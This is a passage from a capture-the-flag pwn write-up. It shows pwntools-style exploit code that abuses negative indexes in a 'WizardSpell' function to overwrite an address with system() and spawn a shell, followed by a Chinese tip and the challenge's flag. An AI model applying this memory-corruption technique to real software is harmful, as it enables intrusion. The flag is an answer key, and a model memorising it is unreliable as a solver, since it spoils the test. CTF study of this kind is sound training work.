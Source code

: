 ```python
WizardSpell(-2,b'\x00'*3)  
WizardSpell(-2,b'\x00'*3)  
  
payload = b'\x00' + p64(system_addr)  
WizardSpell(0,payload)  
#getshell  
sh.sendlineafter('choice>> ','sh')  
  
sh.interactive()
```

记得最后getshell只能用sh。

- ### Flag
  > cyberpeace{c7911c004c18c37d880557afaddab35c}